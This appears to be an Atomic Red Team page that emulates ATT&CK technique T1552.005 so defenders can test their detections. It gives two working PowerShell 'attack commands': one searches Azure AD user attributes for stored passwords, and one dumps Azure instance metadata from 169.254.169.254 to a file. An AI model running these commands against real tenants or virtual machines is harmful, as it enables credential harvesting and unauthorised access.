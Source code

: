 # T1552.005 - Unsecured Credentials: Cloud Instance Metadata API

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552/005)

<blockquote>Adversaries may attempt to access the Cloud Instance Metadata API to collect credentials and other sensitive data.

Most cloud service providers support a Cloud Instance Metadata API which is a service provided to running virtual instances that allows applications to access information about the running virtual instance. Available information generally includes name, security group, and additional metadata including sensitive data such as credentials and UserData scripts that may contain additional secrets. The Instance Metadata API is provided as a convenience to assist in managing applications and is accessible by anyone who can access the instance.(Citation: AWS Instance Metadata API) A cloud metadata API has been used in at least one high profile compromise.(Citation: Krebs Capital One August 2019)

If adversaries have a presence on the running virtual instance, they may query the Instance Metadata API directly to identify credentials that grant access to additional resources. Additionally, adversaries may exploit a Server-Side Request Forgery (SSRF) vulnerability in a public facing web proxy that allows them to gain access to the sensitive information via a request to the Instance Metadata API.(Citation: RedLock Instance Metadata API 2018)

The de facto standard across cloud service providers is to host the Instance Metadata API at <code>http[:]//169.254.169.254</code>.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords](#atomic-test-1---azure---search-azure-ad-user-attributes-for-passwords)

- [Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines](#atomic-test-2---azure---dump-azure-instance-metadata-from-virtual-machines)

<br/>

## Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords

This test uses the MSOnline Powershell module to retrieve all user attributes for a specified account, which can sometimes contain unsecured credentials.
Upon successful execution, this test will scan all user attributes for any strings containing "password".
Those unsecured credentials will be output to a text file, as well as the account that they are associated with and the user attribute in which they were found.
See: https://github.com/dafthack/CloudPentestCheatsheets/blob/master/cheatsheets/Azure.md

**Supported Platforms:** Azure-ad

**auto_generated_guid:** ae9b2e3e-efa1-4483-86e2-fae529ab9fb6

#### Inputs:

| Name     | Description       | Type   | Default Value |
| -------- | ----------------- | ------ | ------------- |
| username | Azure AD username | string |               |
| password | Azure AD password | string | T1082Az       |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
import-module msonline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
$users = Get-MsolUser -All;
foreach($user in $users)
{$props = @();$user | Get-Member | foreach-object{$props+=$_.Name};
foreach($prop in $props)
{if($user.$prop -like "*password*")
{("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop) | out-file -filepath $env:temp\T1552.005Test1.txt -append -force}}}
get-content -path $env:temp\T1552.005Test1.txt -erroraction silentlycontinue
```

#### Cleanup Commands:

```powershell
remove-item $env:temp\T1552.005Test1.txt -force -erroraction silentlycontinue
```

#### Dependencies: Run with `powershell`!

##### Description: The MSOnline module must be installed.

##### Check Prereq Commands:

```powershell
if (get-command Get-MsolUser -erroraction silentlycontinue){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
install-module MSOnline
```

<br/>
<br/>

## Atomic Test #2 - Azure - Dump Azure Instance Metadata from Virtual Machines

This test invokes a web request to the default Instance Metadata API of 169.254.169.254 in order to dump the data contained within it to a file.
See: https://www.sans.org/blog/cloud-instance-metadata-services-imds-/

**Supported Platforms:** Iaas:azure

**auto_generated_guid:** cc99e772-4e18-4f1f-b422-c5cdd1bfd7b7

#### Inputs:

| Name        | Description                | Type   | Default Value                    |
| ----------- | -------------------------- | ------ | -------------------------------- |
| output_file | File to output metadata to | string | $env:temp&#92;T1552.005Test2.txt |

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | ConvertTo-Json -Depth 64 > #{output_file}
```

#### Cleanup Commands:

```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```

<br/>

